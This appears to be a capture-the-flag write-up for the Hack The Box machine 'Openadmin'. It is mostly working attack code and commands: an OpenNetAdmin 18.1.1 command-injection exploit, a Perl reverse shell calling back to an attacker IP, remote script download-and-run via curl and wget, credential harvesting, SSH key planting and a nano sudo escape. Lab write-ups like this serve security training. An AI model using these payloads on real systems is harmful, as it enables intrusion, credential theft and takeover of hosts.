



Openadmin is a Linux machine rated Easy on HTB.

## Port Scan

`nmap -sC -sV -oA initial 10.10.10.171`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We find two services running: 

* SSH 
* Web server

## Dirbusting Web Server

As the nmap scan showed, the web server is showing the default Apache page.

Let's run dirbuster to gather more information.



We found a few folders. Most of them contain static resources. 

But **/ona/** looks interesting as it appears to be a PHP application.



The application is **OpenNetAdmin version 18.1.1**.

## OpenNetAdmin RCE Exploit

[OpenNetAdmin](https://opennetadmin.com/) is a network management tool that offers a database managed inventory of your IP network.

There is one RCE exploit available for the version installed (18.1.1).

```
root@kali:~/htb/openadmin# searchsploit opennetadmin
<SNIP>
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                                         | exploits/php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                                                          | exploits/php/webapps/47691.sh
```

### Understanding The Exploit

This is the exploit script.

```
#!/bin/bash

URL="${1}"
while true;
do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

Essentially, it loops infinitely as it takes in what you type at the command line and sends it to the vunerable URL to trigger the RCE. 

Together with some formatting magic, it returns only the response to the sent command. This way, it creates the impression of having a shell on the exploited machine.

(It includes BEGIN and END in the sent payload to act as markers, before using sed to grep and print what's between these two markers.)

### Verifying The Exploit

Let's run the curl command manually to see if the exploit works.

`curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";whoami;echo \"END\"&xajaxargs[]=ping" http://10.10.10.171/ona/`

Results:

```
<?xml version="1.0" encoding="utf-8" ?>
</SNIP>
<pre style="padding: 4px;font-family: monospace;">BEGIN
www-data
END
</pre>
<SNIP>
```

It responds to our `whoami` command, proving that the RCE works.

### Creating A Payload

Save the perl reverse shell payload below into a file `perlshell`.

```
use Socket;$i="10.10.X.X";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

Then, serve it up for download into Openadmin.

`python -m SimpleHTTPServer`

### Getting A Shell

Prepare to catch the reverse shell.

`nc -nvlp 8888`

Next, execute the two curl commands below in sequence. 

This first command will download the shell into Openadmin.

`curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";wget http://10.10.X.X:8000/perlshell;echo \"END\"&xajaxargs[]=ping" http://10.10.10.171/ona/`

This second command will execute the perl script, pushing a shell back to our nc handler.

`curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";perl perlshell;echo \"END\"&xajaxargs[]=ping" http://10.10.10.171/ona/`

We got a basic `www-data` shell.

```
root@kali:~/htb/openadmin# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.171] 38668
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Searching For Credentials 

Running linPEAS offers a quick way to find a foothold in privilege escalation.

`$ curl http://10.10.14.3:8000/linpeas.sh | bash`

Reviewing the output, we uncover a database password.

```
[+] Finding 'pwd' or 'passw' variables inside /home /var/www /var/backups /tmp /etc /root /mnt (limit 70)
<SNIP>
/var/www/ona/local/config/database_settings.inc.php:        'db_passwd' => 'n1nj4W4rri0R!',
<SNIP>
```

This search is not exhaustive.

Manually, we can also search for files with passwords using some variation of the command below.

`grep -IiR passw /var/* --exclude-dir=/var/lib/ 2>/dev/null`

* `-I` skips over binary files
* `-R` recurses, following symlinks
* `--exclude-dir` useful for avoiding too many false positives

## Exploiting Reuse Of Passwords

Reuse of passwords is a vulnerability. Bearing this in mind, we reiterate logins each time we find a new credential.

Here, the database password is also used as jimmy's SSH password.

```
root@kali:~/htb# ssh jimmy@10.10.10.171
jimmy@10.10.10.171's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
<SNIP>
jimmy@openadmin:~$ 
```

## Abusing Group Permissions 

Basic enumeration shows that jimmy is part of the `internal` group, which has access to the directory `/var/www/internal`.

```
jimmy@openadmin:~$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
jimmy@openadmin:~$ find / -xdev -group internal 2>/dev/null
/var/www/internal
/var/www/internal/main.php
/var/www/internal/logout.php
/var/www/internal/index.php
```

Let's check it out.

### Reviewing Group Access

In `/var/www/internal/main.php`:

```
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

This application prints the private SSH keys of joanna. Assuming this works, the server must be configured to run with the permissions of joanna (or other elevated permissions)

However, our enumeration shows that Apache is running as www-data. What's happening?

### Reviewing Apache Configuration

The answer lies with vhost configuration with [mpm-itk](https://www.howtoforge.com/running-vhosts-under-separate-uids-gids-with-apache2-mpm-itk-on-debian-etch), which allows you to run each of your vhost under a separate UID and GID.

```
jimmy@openadmin:/etc/apache2$ cat sites-available/internal.conf
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

As the **AssignUserID** above shows, the vhost with document root /var/www/internal is running with joanna's account. This means that this vhost will execute scripts with joanna's permissions

We also see that we can access the vhost at port 52846.

### Getting A Shell

First, let's infiltrate a php payload.

```
jimmy@openadmin:/var/www/internal$ wget http://10.10.X.X:8000/sorryfortheshell.php
--2020-04-10 14:53:18--  http://10.10.X.X:8000/sorryfortheshell.php
Connecting to 10.10.X.X:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5492 (5.4K) [application/octet-stream]
Saving to: ‘sorryfortheshell.php’

sorryfortheshell.php                100%[=================================================================>]   5.36K  --.-KB/s    in 0.001s  

2020-04-10 14:53:18 (3.55 MB/s) - ‘sorryfortheshell.php’ saved [5492/5492]
```

Then, we trigger it.
    
`curl http://127.0.0.1:52846/sorryfortheshell.php`

We receive a connection on our handler.

```
root@kali:~/htb/openadmin# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.171] 55872
<SNIP>
/bin/sh: 0: can't access tty; job control turned off
$ whoami
joanna
```

## Abusing Sudo Rights For Privilege Escalation

Run `sudo -l` to list joanna's privilege.

```
/etc/sudoers.d/joanna:joanna ALL=(ALL) NOPASSWD:/bin/nano /opt/priv
```

We can run nano as root (without password), but only for editing a specific file `/opt/priv`.

### Launching Nano

We cannot get nano to run properly in a simple shell. So let's add our SSH key to joanna's account and get a SSH shell.

First, let's generate new keys.

`ssh-keygen -f openadmin`

Then, add our public key (`openadmin.pub`) into joanna's authorized_keys.

`$ echo 'ssh-rsa <SNIP> root@kali' >> authorized_keys`

We can now connect to the machine via SSH as joanna.

`ssh joanna@10.10.10.171 -i openadmin`

### Getting A Shell From Within Nano

Now, let's launch nano as root.

`sudo /bin/nano /opt/priv`

[To escape nano into shell](https://gtfobins.github.io/gtfobins/nano/):

* Then, press `^R` followed by `^X` to execute command within nano.
* Execute `reset; sh 1>&0 2>&0` to escape into a shell. 

You can also execute any reverse shell one liner.



# Thoughts

This is a straightforward box that reinforces a few basic techniques for Linux boxes.
